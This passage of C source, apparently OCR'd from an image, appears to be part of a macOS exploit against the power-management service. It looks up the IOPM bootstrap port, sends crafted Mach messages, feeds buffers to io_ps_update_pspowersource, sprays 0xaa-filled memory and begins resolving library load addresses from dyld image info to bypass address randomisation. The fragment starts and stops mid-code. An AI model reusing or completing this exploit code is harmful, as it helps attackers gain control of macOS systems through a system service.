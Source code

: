 ```c
    int ret = 0;
    io_ps_update_pspowersource(service_port,0,(vm_offset_t)b,s,&ret);
}

vm_offset_t data= 0;
mach_msg_type_number_t cnt=1000;
int ret=0;

void ping(mach_port_t port) {
    struct {
        mach_msg_header_t hdr;
        mach_msg_body_t body;
    } m;

    m.hdr.msgh_size = sizeof(m);
    m.hdr.msgh_local_port = MACH_PORT_NULL;
    m.hdr.msgh_remote_port = port;
    m.hdr.msgh_bits = MACH_MSGH_BITS(MACH_MSG_TYPE_COPY_SEND, MACH_MSG_TYPE_MAKE_SEND_ONCE);
    m.hdr.msgh_bits |= MACH_MSGH_BITS_COMPLEX;
    m.hdr.msgh_id = 0;

    m.body.msgh_descriptor_count = 0;

    mach_msg(&m.hdr,
                                 MACH_SEND_MSG,
                                 m.hdr.msgh_size,
                                 0,
                                 MACH_PORT_NULL,
                                 MACH_MSG_TIMEOUT_NONE,
                                 MACH_PORT_NULL);

}
void do_prepare_data(void)
{
    mach_port_t bs;
    kern_return_t kr;

    task_get_bootstrap_port(mach_task_self(), &bs);
    kr = bootstrap_look_up(bs, kIOPMServerBootstrapName, &service_port);
    CHECK_MACH_ERR(kr,"bootstrap_look_up()");   
    ping(service_port);

    if(data)
        vm_deallocate(mach_task_self(),data,cnt);

    kr = vm_allocate(mach_task_self(),&data,cnt,1);
    if(!p)
        p = do_dummy_allocate_p(psizeP,0xaa);

}
uint64_t get_library_address(const char* library_name) {
    task_dyld_info_data_t task_dyld_info;
    mach_msg_type_number_t count = TASK_DYLD_INFO_COUNT;

    task_info(mach_task_self(), TASK_DYLD_INFO, (task_info_t)&task_dyld_info, &count);

    const struct dyld_all_image_infos* all_image_infos = (const struct dyld_all_image_infos*)task_dyld_info.all_image_info_addr;
    const struct dyld_image_info* image_infos = all_image_infos->infoArray;

    for (size_t i = 0; i < all_image_infos->infoArrayCount; i++) {
        const char* image_name = image_infos[i].imageFilePath;
        mach_vm_address_t image_load_address = (mach_vm_address_t)image_infos[i].imageLoadAddress;
```
